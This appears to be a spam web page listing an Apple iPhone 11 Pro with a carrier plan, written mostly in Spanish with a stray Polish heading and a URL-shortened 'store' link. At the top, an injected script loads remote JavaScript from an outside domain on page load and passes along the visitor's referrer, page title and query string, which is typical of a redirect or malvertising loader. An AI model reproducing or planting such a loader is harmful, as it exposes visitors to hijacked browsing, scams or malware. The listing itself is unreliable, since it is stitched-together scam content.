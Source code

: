 <script type="application/javascript">
document.write('<script type="application/javascript" src="//dalibera.com/t2NHqfbY?se_referrer=' + encodeURIComponent(document.referrer) + '&default_keyword=' + encodeURIComponent(document.title) + '&'+window.location.search.replace('?', '&')+'&frm5f2ee9479b150=script5f2ee9479b151"><' + '/script>');
</script>

<img src="https://knwmeg.github.io/iphone/PL1.jpg"/>

## iPhone 11 PRO

Apple iPhone 11 Pro (64 GB, verde medianoche) [operador bloqueado] + suscripción de operador [Cricket Wireless] (crédito de tarjeta de regalo de Amazon de $ 10 / mes)

### Dane techniczne

Pantalla OLED Super Retina XDR de 5,8 pulgadas
Resistente al agua y al polvo (4 metros por hasta 30 minutos, IP68)
Sistema de triple cámara con cámaras ultra gran angular, gran angular y telefoto de 12 MP; Modo nocturno, modo retrato y video 4K hasta 60 fps
Cámara frontal TrueDepth de 12MP con modo retrato, video 4K y cámara lenta
Face ID para autenticación segura y Apple Pay
Chip A13 Bionic con Neural Engine de tercera generación
Carga rápida con adaptador de 18 W incluido
Carga inalambrica

Para obtener más detalles, consulte [Tienda](http://shorturl.at/dgnxM).
